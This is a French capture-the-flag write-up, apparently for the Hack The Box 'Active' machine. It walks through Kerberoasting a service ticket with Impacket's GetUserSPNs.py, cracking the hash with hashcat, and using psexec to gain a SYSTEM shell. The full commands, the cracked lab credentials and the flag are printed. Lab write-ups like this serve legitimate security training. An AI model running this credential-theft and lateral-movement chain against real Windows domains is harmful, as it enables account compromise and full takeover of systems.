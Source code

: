 Et boom ([Shake the room!](https://www.youtube.com/watch?v=_PJPmokfTfQ)) ! Un shell... avec les droits NT\SYSTEM... OMG PWNIES WUT DID JUST HAPPENED ?  

En fait il semble que quelqu'un a du lancer un exploit et la machine s'est retrouvée dans un état... inattendu.  

Kerberoast 101
--------------

Pour avoir lu pas mal d'articles traitant de Windows/Kerberos, c'était compréhensible au vu du nom du compte récupéré (TGS => Ticket Granting Service) qu'on aurait à passer par *Kerberos*.  

La suite [Impacket](https://github.com/CoreSecurity/impacket) dispose de différents scripts liés à l'énumération/l'exploitation Windows dont certains directement relatifs à Kerberos.  

```plain
devloop@kali:~/Downloads/impacket-impacket_0_9_17$ PYTHONPATH=. python examples/GetUserSPNs.py -dc-ip 10.10.10.100 -outputfile /tmp/hashes.txt ACTIVE.htb/SVC_TGS:GPPstillStandingStrong2k18
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon
--------------------  -------------  --------------------------------------------------------  -------------------  -------------------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40  2018-07-30 19:17:40
```

Cela permet de récupérer les *Ticket de Services* (qui sont chiffrés avec le hash du compte correspondant servant à faire tourner ledit service). Une recherche sur Kerberoast vous permettra de retrouver les détails de l'attaque.  

Ici on voit CIFS (partage de fichier) tournant avec le compte Administrator.  

Impacket nous livre le ticket dans un format directement brute-forcable avec hashcat :  

```plain
$krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$3ec305740a094af09edd9778826a802--- snip ---869543e0b63
```

On lance alors hashcat avec la commande *hashcat64.bin -m 13100 -a 0 /tmp/hashes.txt /opt/wordlists/rockyou.txt*  

Cela nous donne le mot de passe *Ticketmaster1968* que l'on peut cette fois utiliser avec *psexec* :  

```plain
devloop@kali:~/Downloads/impacket-impacket_0_9_17$ PYTHONPATH=. python examples/psexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file PIIkmeAQ.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service coDf on 10.10.10.100.....
[*] Starting service coDf.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd c:/users/administrator/desktop

c:\Users\Administrator\Desktop>type root.txt
b5fc76d1d6b91d77b2fbf2d54d0f708b
```